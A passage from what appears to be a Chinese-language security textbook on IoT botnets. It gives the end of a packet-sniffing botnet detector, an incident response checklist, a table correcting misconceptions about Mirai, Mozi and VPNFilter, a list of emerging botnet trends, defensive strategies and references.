                self.analyze_packet(packet)
                
        except KeyboardInterrupt:
            print("\n[!] 监控停止")
        except PermissionError:
            print("[ERROR] 需要root权限才能嗅探网络流量")

# 使用示例
if __name__ == "__main__":
    detector = BotnetDetector()
    detector.start_monitoring('eth0')
```

#### 应急响应Checklist

当发现IoT设备疑似感染僵尸网络时，按以下步骤处理：

**第一阶段：隔离（30分钟内）**

- [ ] 断开设备网络连接（拔网线/禁用WiFi）
- [ ] 记录设备IP、MAC地址、固件版本
- [ ] 截取当前进程列表和网络连接快照
- [ ] 收集内存转储（如可行）
- [ ] 检查日志文件（/var/log/auth.log、messages）

**第二阶段：分析（4小时内）**

- [ ] 确认感染类型（Mirai/Mozi/其他）
- [ ] 识别C2通信目标IP和域名
- [ ] 提取恶意样本payload
- [ ] 检查是否已横向传播到其他设备
- [ ] 评估数据泄露风险

**第三阶段：恢复（24小时内）**

- [ ] 恢复出厂设置或重刷固件
- [ ] 更改所有默认凭据
- [ ] 更新固件至最新版本
- [ ] 禁用不必要的远程管理端口
- [ ] 启用防火墙规则限制异常出站流量

**第四阶段：加固（持续）**

- [ ] 部署网络流量监控系统
- [ ] 订阅威胁情报（如AutoShun、AbuseIPDB）
- [ ] 建立设备资产管理台账
- [ ] 制定定期安全审计计划
- [ ] 参与行业信息共享（如MISP）

### 22.5.6 常见误区与纠正

| 误区 | 正确理解 |
|------|----------|
| "我的设备没被攻击过，所以安全" | 很多IoT僵尸网络感染设备数月甚至数年而不发起攻击，设备可能早已成为僵尸网络的一部分，只是尚未被"唤醒" |
| "改密码就够了" | 改密码是基础但远非充分。设备上未修补的漏洞（如命令注入）可直接绕过认证机制，密码更改无法防御 |
| "内网设备不会被感染" | Mirai和Mozi都能穿透NAT，通过UPnP映射或反向连接方式感染内网设备。Hajime的uTP协议天然支持NAT穿透 |
| "重新出厂设置就好了" | 部分僵尸网络（如VPNFilter）会修改设备固件，即使恢复出厂设置也无法清除。必须重新刷写完整固件 |
| "企业级防火墙能防御" | 传统防火墙基于端口和协议的规则，对P2P僵尸网络的DHT加密通信几乎无效。需要下一代防火墙+行为分析 |


### 22.5.7 前沿趋势与防御展望

#### 新一代僵尸网络的六大特征

1. **区块链C2**：使用区块链或IPFS存储加密指令，利用区块链的不可篡改性和去中心化特性，执法机构几乎无法关闭C2通道
2. **AI驱动的自适应攻击**：根据目标防火墙的反应动态调整攻击参数（速率、协议、向量组合），自动绕过防护规则
3. **5G+边缘计算**：利用5G边缘节点的高带宽和计算能力，单点即可发动可观攻击
4. **固件持久化**：通过修改Bootloader或利用安全启动链漏洞，实现固件级别的持久驻留，即使重刷固件也无法清除
5. **跨平台统一框架**：一次编写，可在ARM/x86/MIPS/RISC-V等多种架构上运行，覆盖从传感器到服务器
6. **IoT僵尸网络即服务（BaaS）**：在暗网中，完整的IoT僵尸网络被封装为一站式服务，租用者只需提供攻击目标即可



#### 防御者的主动应对策略

面对不断进化的IoT僵尸网络威胁，防御策略必须从"被动响应"转向"主动免疫"：

1. **设备安全出厂设计（Secure by Design）**
   - 强制唯一初始密码（序列号+芯片ID的哈希值）
   - 安全启动链确保固件完整性
   - 最小化开放端口和运行服务

2. **网络层级主动防御**
   - 部署NDPI（深度包检测）识别加密的P2P通信
   - 建立设备行为基线，AI检测异常模式
   - 网络微分段隔离IoT设备域

3. **生态协同治理**
   - 国际执法机构信息共享（如Europol EC3）
   - 建立全球IoT设备安全评级体系
   - 推动"安全标签"制度，消费者可识别设备安全等级

4. **攻防对抗技术演进**
   - 部署基于eBPF的内核级行为监控
   - 使用联邦学习构建分布式威胁情报网络
   - 开发蜜罐网络的自主诱捕和逆向分析系统

---

**参考资源：**

- Krebs, B. (2016). "KrebsOnSecurity Hit With Record DDoS". KrebsOnSecurity
- Antonakakis, M., et al. (2017). "Understanding the Mirai Botnet". USENIX Security Symposium
- NETRESEC. (2019). "Mozi Internet of Things Botnet Analysis"
- Palo Alto Networks Unit 42. (2020). "Mozi – Another Botnet on the Rise"
- Radware. (2021). "Hajime Botnet Analysis and Evolution"
- 公安部网络安全保卫局. (2021). "关于打击Mozi僵尸网络的通报"
- Cimpanu, C. (2023). "Mozi botnet infrastructure dismantled after three years". The Record
